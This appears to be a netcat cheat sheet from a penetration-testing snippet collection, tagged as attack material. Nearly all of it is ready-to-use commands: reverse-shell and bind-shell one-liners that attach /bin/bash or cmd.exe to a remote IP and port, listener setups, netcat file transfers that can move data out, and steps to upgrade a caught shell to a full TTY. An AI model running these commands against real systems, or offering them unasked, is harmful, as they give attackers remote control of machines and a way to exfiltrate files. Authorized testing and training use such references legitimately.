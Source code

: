 # netcat

% nc, netcat

#plateform/linux #target/remote  #cat/ATTACK/LISTEN-SERVE 

## reverse - linux listener (fixed port)
```
rlwrap -cAr nc -nlvp <port>
```

## reverse - linux listener (random port)
```
rlwrap -cAr nc -lnvr
```

## reverse - windows listener 
```
nc.exe -lnvp <port>
```

## reverse - linux binder
```
nc -np <ip> <port> -e /bin/bash
```

## reverse - windows binder
```
nc.exe <ip> <port> -e cmd.exe
```

## bind - linux listener (fixed port)
```
rlwrap -cAr nc -nlvp <port> -e /bin/bash
```

## bind - linux listener (random port)
```
rlwrap -cAr nc -lnvr -e /bin/bash
```

## bind - windows listener 
```
nc.exe -lnvp <port>  -e cmd.exe
```

## bind - linux binder
```
nc -np <ip> <port>
```

## bind - windows binder
```
nc.exe <ip> <port>
```

## transfer - receiver
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nlvp <port> > <incomming_file>
```

## transfer - sender
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nv <ip> <port> < <file_to_send>
```

## full tty (1)  
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## full tty (2)
```
CTRL+Z
``` 

## full tty (3)
```
stty raw -echo ; fg
```

## full tty (4)
TERM=screen
```
export SHELL=/bin/bash; export TERM=xterm-256color ; stty rows <ROWS|38> cols <COLS|116>; reset
```

## no tty
```
see expect
```